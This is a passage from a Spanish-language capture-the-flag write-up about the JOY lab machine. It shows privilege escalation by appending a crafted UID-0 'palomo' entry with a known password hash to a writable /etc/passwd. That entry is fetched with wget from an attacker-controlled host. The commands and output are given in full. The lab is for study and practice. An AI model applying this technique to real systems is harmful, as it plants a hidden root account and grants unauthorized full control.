 
### 5.2. Modificando el PASSWD

- Una vez que tenemos permisos para modificar el archivo PASSWD ya podemos convertirnos en ROOT.

```
/*En KALI lINUX*/
root@kali:~/JOY# mkpasswd  -m sha-512 -S saltsalt -s
Password: 12345678
$6$saltsalt$9vIXh5xFJESF2.DxxXyWlpOT.0t06Y2Pk11StIw2L8oaOTl42ZfuhPPi5h2PPjbLI.FnnhTBEMMcL05LS2ZmY.
root@kali:~/JOY# nano add.txt
root@kali:~/JOY# cat add.txt 
palomo:$6$saltsalt$9vIXh5xFJESF2.DxxXyWlpOT.0t06Y2Pk11StIw2L8oaOTl42ZfuhPPi5h2PPjbLI.FnnhTBEMMcL05LS2ZmY.:0:0::/root/:/bin/bash
root@kali:~/JOY# cp add.txt /var/www/html/


/*en la VM JOY*/

patrick@JOY:/var/www/tryingharderisjoy/ossec$ cd /tmp
cd /tmp
patrick@JOY:/tmp$ wget http://10.10.10.133/add.txt
wget http://10.10.10.133/add.txt
--2021-03-26 18:44:30--  http://10.10.10.133/add.txt
Connecting to 10.10.10.133:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 128 [text/plain]
Saving to: ‘add.txt’

add.txt             100%[===================>]     128  --.-KB/s    in 0s      

2021-03-26 18:44:30 (23.4 MB/s) - ‘add.txt’ saved [128/128]

patrick@JOY:/tmp$ cat add.txt >> /etc/passwd
cat add.txt >> /etc/passwd
patrick@JOY:/tmp$ su palomo
su palomo
Password: 12345678

```

<img src="https://github.com/El-Palomo/JOY/blob/main/joy16.jpg" widht=80% />

